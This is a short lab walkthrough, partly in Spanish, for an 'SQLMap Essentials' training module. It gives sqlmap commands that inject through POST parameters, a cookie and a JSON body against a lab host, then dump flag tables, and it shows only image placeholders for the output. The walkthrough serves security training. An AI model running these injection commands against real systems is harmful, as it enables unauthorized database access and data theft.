 # SQLMap Essentials

{% file src="../.gitbook/assets/Sqlmap_Essentials_Module_Cheat_Sheet.pdf" %}

## Getting Started

### SQLMap Overview

#### Preguntas

**What's the fastest SQLi type?**

UNION query-based

## Building Attacks

### Running SQLMap on an HTTP Request

#### Preguntas

**What's the contents of table flag2? (Case #2)**

Vemos cómo se llaman las bases de datos.

```
sqlmap -u 'http://94.237.57.211:53268/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' --dbs
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo como se llama realizamos lo siguiente para ver lo que contiene en dicha tabla.

```
 sqlmap -u 'http://94.237.57.211:53268/case2.php' \
  --data 'id=1*' --method POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -D testdb -T flag2 --dump
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag3? (Case #3)**

```
sqlmap -u "http://94.237.57.211:53268/case3.php" --cookie 'id=1*' -T flag3 --dump
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag4? (Case #4)

```
sqlmap -u 'http://94.237.57.211:53268/case4.php' -H 'Content-Type: application/json' --data '{"id":1}' -T flag4 --dump --method POST
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
